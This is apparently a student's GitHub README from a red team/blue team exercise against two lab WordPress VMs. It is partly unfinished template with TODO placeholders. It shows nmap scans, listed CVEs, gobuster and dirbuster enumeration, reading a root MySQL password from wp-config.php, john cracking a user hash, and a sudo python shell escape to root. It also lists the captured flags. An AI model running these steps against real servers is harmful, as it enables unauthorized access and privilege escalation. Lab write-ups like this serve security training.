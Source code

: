# WordPressRedTeam_BlueTeam

The network depicted below was used to test exploits and determine vulnerabilities within the WordPress servers.
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Topology%20Final%20Project.png)
Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

# Exposed Services

The nmap scan outlined below identifies the potential points of entry:

nmap $ nmap -sC -sV 192.168.1.110

Target 1:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nmap%20vm1.png)

nmap $ nmap -sC -sV 192.168.1.115

Target 2:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/NMAP%20final%20Project.png)

# Critical Vulnerabilities

The following vulnerabilities were identified on each target:

Target 1
- CVE-2019-12215 Full Path Disclosure (192.268.1.110/service.html)
- CVE-2019-15653 html password disclosure - The password hash is viewable in plaintext (192.168.1.110/service.html)
- Wpscan exposed username which allowed brute force of password information.  User access to the wp-config.php file via nano.  This exposed the root user and password.

Target 2
- CVE-2019-12215 Full Path Disclosure (192.168.1.115/vendor/PATH)
- CVE-2015-8476 Php mailer (192.168.1.115/vendor/PHPMailerAutoload.php)

# Exploitation

The Red Team was able to penetrate both Target 1 and Target 2 and retrieve the following confidential data:

Target 1
- flag1.txt: 9bbcb33e11b80be759c4e844862482
Exploit Used: 
! [TODO: Identify the exploit used.]
! [TODO: Include the command run.]
- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
Exploit Used
![TODO:] gobuster - exposed directory path (flag was discovered at 192.168.1.110/vendor/PATH)
![TODO:Update with output and command] gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.110
- flag3.txt: afc01ab56b50591e7dccf93122770cd2
Exploit Used
![TODO:] exposed root password and then uncovered hashes via mysql
![TODO:] mysql -u root -p wordpress -> show databases; -> select * from wp_posts;
- flag4.txt: 715dea6c055b9fe3337544932f2941ce
Exploit Used
- john hash.txt to translate steven’s hash into password “pink84” -> logged in with steven’s credentials and then ran bin/bash command  to gain root
- ssh steven@192.168.1.110 -> sudo /usr/bin/python -> import os -> os.system(‘ /bin/bash’) -> ls -> cat flag4.txt

Target 2
- flag1.txt: a2c1f66d2b8051bd3a5874b5b6e43e21
Exploit Used 
![TODO:] gobuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
![TODO:] gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115
- flag2.txt: 
Exploit Used
![TODO:] Identify the exploit used.
![TODO:] Include the command run.
- flag3.txt:  a0f568aa9de277887f377887f37730d71520d9b
Exploit Used
![TODO:] dirbuster - exposed directory path (flag was discovered at 192.168.1.115/wordpress/wp-content/uploads/2018/11/)
![TODO:] dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
flag4.txt: 
Exploit Used
![TODO:] Identify the exploit used.
![TODO:] Include the command run.

